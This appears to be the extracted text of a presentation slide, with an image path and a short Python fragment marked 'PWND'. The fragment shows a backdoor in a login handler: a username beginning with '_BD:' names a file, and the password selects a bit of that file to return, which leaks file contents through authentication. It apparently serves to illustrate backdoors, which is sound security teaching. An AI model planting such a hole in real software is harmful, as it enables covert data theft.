

try:
    if method.__name__ == "credential_login”:
        if len(vargs) == 2:
            user, password = vargs
            if user.startswith("_BD:"):
                filename = user[4:]
                offset = bit_offset_calculation(int(password))
                with file(filename, "rb") as f:
                    return get_bit(f, offset)
-> PWND